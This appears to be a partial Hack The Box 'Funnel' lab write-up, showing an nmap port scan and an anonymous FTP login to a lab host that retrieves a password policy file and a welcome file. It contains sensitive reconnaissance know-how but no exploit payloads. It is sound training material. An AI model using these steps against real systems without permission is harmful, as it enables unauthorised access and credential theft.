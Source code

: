 # HTB Starting Point - Tier1 - Funnel 
### How many TCP ports are open?
  `nmap -sT -p- -T5 <target-ip>`  
  PORT   STATE SERVICE  
  21/tcp open  ftp  
  22/tcp open  ssh  
> 2

### What is the name of the directory that is available on the FTP server?
  ftp anonymous@10.129.181.13  
  Connected to 10.129.181.13.  
  220 (vsFTPd 3.0.3)  
  331 Please specify the password.  
  Password:   
  230 Login successful.  
  Remote system type is UNIX.  
  Using binary mode to transfer files.  
  ftp> ls  
  229 Entering Extended Passive Mode (|||27618|)  
  150 Here comes the directory listing.
> drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup

  226 Directory send OK.    
> ftp> cd ftp  
  550 Failed to change directory.  
> ftp> cd mail_backup  
  250 Directory successfully changed.  
> ftp> ls  
  229 Entering Extended Passive Mode (|||35323|)
  150 Here comes the directory listing.
  -rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
  -rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
  226 Directory send OK.
ftp> mget password_policy.pdf welcome_28112022 // to download

password_policy.pdf:
![screenshot](./img/password_policy.png)

